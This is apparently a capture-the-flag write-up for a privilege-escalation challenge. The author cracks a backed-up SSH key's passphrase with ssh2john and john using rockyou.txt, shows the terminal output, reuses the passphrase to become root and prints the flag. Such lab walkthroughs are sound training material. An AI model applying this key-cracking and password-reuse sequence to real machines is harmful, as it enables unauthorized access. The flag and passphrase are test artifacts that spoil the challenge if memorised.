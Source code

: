 # Getting the crown jewels

![](https://i.imgur.com/DD4QDOf.png)

- Password spraying is trying the password of one account on all the other account searching for duplicate password across accounts, so from the description, we will probably try to get hype password from the previous challenge and use it to log in into root

- i found a file called id_rsa.bak in `/home/hype/backups/ssh/id_rsa.bak` with a `note.txt` that says `This is a backup of my private key, just in case`

- so let's download the file on our attacker machine and use john the ripper to crack the hash, first we translate it to a form that john understands using ssh2john and then we crack it using the famous wordlist rockyou.txt

```bash
┌──(root💀kali)-[~/Hacking/RCTS/getting_the_crown_jewels]
└─# /usr/share/john/ssh2john.py id_rsa.bak > ssh.hash

┌──(root💀kali)-[~/Hacking/RCTS/getting_the_crown_jewels]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
barcelona1       (id_rsa.bak)
1g 0:00:00:07 DONE (2021-08-11 15:59) 0.1396g/s 2003Kp/s 2003Kc/s 2003KC/sa6_123..*7¡Vamos!
Session completed
```

- look like the password for the id_rsa file is `barcelona1`, lets try `su root` on the shell that we got from the previous challenge

![](https://i.imgur.com/ZZ2Iebm.png)

- it worked :) and now we have our flag

- Flag: flag{h4ck1ng_th3_h4ck3r}